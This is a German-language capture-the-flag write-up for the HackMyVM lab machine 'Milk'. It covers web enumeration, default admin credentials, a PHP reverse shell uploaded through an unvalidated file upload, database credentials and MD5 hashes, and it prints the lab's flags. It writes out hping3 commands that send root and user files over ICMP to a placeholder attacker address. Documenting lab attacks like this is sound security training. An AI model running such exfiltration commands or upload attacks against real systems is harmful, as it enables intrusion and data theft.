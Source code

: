 # Milk - HackMyVM (Medium)

![Milk.png](Milk.png)

## Übersicht

*   **VM:** Milk
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Milk)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 23. November 2020
*   **Original-Writeup:** https://alientec1908.github.io/Milk_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, die User- und Root-Flags der Maschine "Milk" zu erlangen. Der initiale Zugriff erfolgte durch das Ausnutzen einer unsicheren Dateiupload-Funktion im Admin-Panel einer Webanwendung. Die Admin-Credentials (`admin:admin`) wurden durch Analyse eines Datenbank-Dumps (`fos_db.sql`) bestätigt, der im Web-Root gefunden wurde. Nach dem Hochladen einer PHP-Reverse-Shell wurde Zugriff als Benutzer `www-data` erlangt. Die Flags wurden anschließend mittels `hping3` über ICMP-Pakete exfiltriert, was Lesezugriff auf die Flag-Dateien durch den `www-data`-Benutzer (oder einen eskalierten Benutzer) impliziert, obwohl der genaue Eskalationspfad zu Root im Bericht nicht detailliert wurde.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `vi` / `nano`
*   Burp Suite (impliziert für File Upload)
*   `nc` (netcat)
*   `cat`
*   `ss`
*   `mysql`
*   `hping3`
*   Standard Linux-Befehle (`ls`, `cd`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Milk" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.146) mit `arp-scan` identifiziert.
    *   `nmap`-Scan offenbarte Port 22 (SSH, OpenSSH 7.9p1) und Port 80 (HTTP, Nginx 1.14.2).
    *   `gobuster` auf Port 80 fand diverse PHP-Dateien (`index.php`, `login.php`, `contact-us.php`, etc.) und das Verzeichnis `/admin/`. Auf der Kontaktseite wurde die E-Mail `john@gmail.com` gefunden.
    *   Ein weiterer `gobuster`-Scan auf `/admin/` enthüllte typische Admin-Panel-Dateien.

2.  **Initial Access (via File Upload RCE als `www-data`):**
    *   Es wurde angenommen (und später durch Datenbankanalyse bestätigt), dass der Admin-Login mit Standard-Credentials (`admin:admin`) funktioniert.
    *   Nach dem Login ins Admin-Panel wurde eine Funktion zum Verwalten von Fahrzeugen ("Manage Vehicles") gefunden, die einen Dateiupload erlaubte.
    *   Mittels Burp Suite wurde ein legitimer Upload-Request abgefangen, der Dateiname zu `rev.php` geändert und der Inhalt durch eine PHP-Reverse-Shell ersetzt.
    *   Nach erfolgreichem Upload und Aufruf der Datei (z.B. durch Klicken auf das hochgeladene "Bild") wurde eine Reverse Shell als `www-data` zu einem Netcat-Listener aufgebaut.

3.  **Post-Exploitation & Database Enumeration:**
    *   Als `www-data` wurde die Datei `includes/config.php` (eingebunden von `update-password.php`) untersucht, die vermutlich Datenbank-Credentials enthielt.
    *   `ss -tulpe` zeigte einen lokal lauschenden MySQL-Dienst (127.0.0.1:3306).
    *   Mit den Credentials `root:p4ssw` (aus `config.php`) wurde auf die MariaDB-Datenbank zugegriffen.
    *   In der Datenbank `car` wurde die Tabelle `admin` gefunden, die den Hash `21232f297a57a5a743894a0e4a801fc3` (MD5 für "admin") für den Benutzer `admin` enthielt. Die Tabelle `tblusers` enthielt den Benutzer `ben` mit dem MD5-Hash `91d609dc84162abf5e69cd5d7ef07145`.
    *   *Der Bericht geht nicht auf das Knacken des `ben`-Hashes oder weitere traditionelle Privilegieneskalation ein.*

4.  **Data Exfiltration (Flags mittels `hping3`):**
    *   Es wird angenommen, dass der Angreifer (als `www-data` oder nach einer nicht gezeigten Eskalation) Lesezugriff auf die User- und Root-Flag-Dateien hatte.
    *   Auf dem Angreifer-System wurde ein `hping3`-Listener gestartet: `hping3 --listen ANGRIFFS_IP -I eth0 --sign MSGID1`.
    *   Auf dem Zielsystem wurde `hping3` verwendet, um den Inhalt der Flag-Dateien über ICMP-Pakete zu exfiltrieren:
        *   `hping3 ANGRIFFS_IP --icmp --sign MSGID1 -d 1000 -c 1 --file /root/root.txt`
        *   `hping3 ANGRIFFS_IP --icmp --sign MSGID1 -d 1000 -c 1 --file /home/milk/user.txt`
    *   Die Flags wurden erfolgreich auf dem Listener des Angreifers empfangen.
    *   User-Flag (`/home/milk/user.txt`): `uzerhmvflag`.
    *   Root-Flag (`/root/root.txt`): `icmpismyfriend`.

## Wichtige Schwachstellen und Konzepte

*   **Unsichere Dateiupload-Funktion:** Eine Webanwendung erlaubte das Hochladen von PHP-Dateien ohne ausreichende Validierung, was zu Remote Code Execution (RCE) führte.
*   **Standard-Admin-Credentials:** Das Admin-Panel war mit den Standard-Zugangsdaten `admin:admin` gesichert.
*   **Exponierte Datenbank-Credentials:** Zugangsdaten für die Datenbank (`root:p4ssw`) waren in einer Konfigurationsdatei im Web-Root gespeichert.
*   **Verwendung schwacher Passwort-Hashes (MD5):** Die Datenbank speicherte Passwörter als MD5-Hashes, die leicht zu knacken sind.
*   **Datenexfiltration über ICMP (`hping3`):** Eine unkonventionelle Methode, um Daten über ICMP-Pakete zu exfiltrieren, falls andere Kanäle blockiert sind und Leserechte auf die Zieldateien bestehen.
*   *(Impliziert)* **Fehlkonfiguration der Dateiberechtigungen:** Der Webserver-Benutzer (`www-data`) oder ein eskalierter Benutzer hatte Lesezugriff auf `/root/root.txt` und `/home/milk/user.txt`.

## Flags

*   **User Flag (`/home/milk/user.txt`):** `uzerhmvflag`
*   **Root Flag (`/root/root.txt`):** `icmpismyfriend`

## Tags

`HackMyVM`, `Milk`, `Medium`, `File Upload RCE`, `Default Credentials`, `Database Leak`, `MD5 Hashes`, `Data Exfiltration`, `hping3`, `ICMP Tunneling`, `Linux`, `Web`, `Privilege Escalation` (impliziert)
